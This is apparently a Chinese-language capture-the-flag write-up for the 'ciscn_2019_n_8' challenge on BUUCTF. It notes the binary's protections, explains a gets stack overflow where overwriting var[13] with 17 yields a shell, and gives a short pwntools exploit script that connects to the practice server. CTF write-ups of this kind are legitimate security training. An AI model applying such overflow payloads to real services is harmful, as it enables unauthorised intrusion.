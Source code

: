 # 知识点

栈溢出



# 题目分析

1. 查看保护情况，32位程序。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      PIE enabled
   ```

2. 拖入IDA分析，发现存在经典的gets栈溢出，我们需要令var[13] = 17即可获得shell。

   填充下标0-12的13个字节的垃圾数据，然后填充17即可。
   
   <img src="./isset/ida.png" alt="ida" style="zoom:50%;" />



# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./ciscn_2019_n_8')
io = remote('node4.buuoj.cn', '26505')

payload = p32(0) * 13 + p32(17)
io.sendlineafter('name?\n', payload)

io.interactive()
```


